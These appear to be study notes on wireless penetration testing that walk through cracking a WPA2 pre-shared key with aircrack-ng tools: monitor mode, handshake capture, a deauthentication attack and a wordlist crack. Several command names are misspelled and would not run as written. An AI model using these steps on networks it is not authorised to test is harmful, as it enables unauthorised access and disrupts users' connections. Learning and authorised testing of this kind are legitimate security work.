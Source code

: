 # Wireless Penetration Test

**Assessment of wireless network**
- `WPA2 PSK` (Pre Shared Key)(mostly homes and SME's)
- `WPA2 Entreprise` (will use radius or credentials)

**Activities performed**
- Evaluating strength of `PSK` (capturing handshake, trying to crack password)
- Reviewing nearby networks (wardriving, GPS device and walking around to detect networks and devices)
- Assessing guest networks (want to see the separation and what access we can get)
- Checking network access

---
Will do the `WPA PSK Exploit` walkthrough with a network card

The Hacking Process

- `Place` wireless card into monitor mode
- `Discover` information about network
	- Channel
	- BSSID
- `Select` network and capture data
- `Perform` deauth attack
- `Capture` WPA handshake
- `Attempt` to crack the handshake

Tools we need: `Wireless Card`, `Router`, `Laptop`

From Kali machine:
```
# iwconfig
# airmong-ng check kill
# airmong-ng start wlan0
# iwconfig
# airodump wlan0mon
```
- 'check kill' will see what processes are running and interfering with what we want to do and kill them 
- 'airodump wlan0mon' will see what networks are around and give us BSSID's (MAC address of acces point)
- PWR the lower (or more positive) the number, the closer the device is to us 
- We see the channel we are on, the encryption, and other networks (hidden and others)

After we know the BSSID:
```
# airodump-ng -c 6 --bssid 50:c7:89:BA:00:73 -w capture wlan0mon
```

will store our results in 'capture.cap'

We can perform a deauth attack to speed up the process:
```
# aireplay-ng -0 1 -a 50:c7:89:BA:00:73 -c <stationAddress> wlan0mon
```
- `-0` to specify deauth attack
- `1` to run this once

Can use capture.cap to crack using hashcat or aircrack:
```
# aircrack-ng -w wordlist.txt -b 50:c7:89:BA:00:73 capture.cap
```
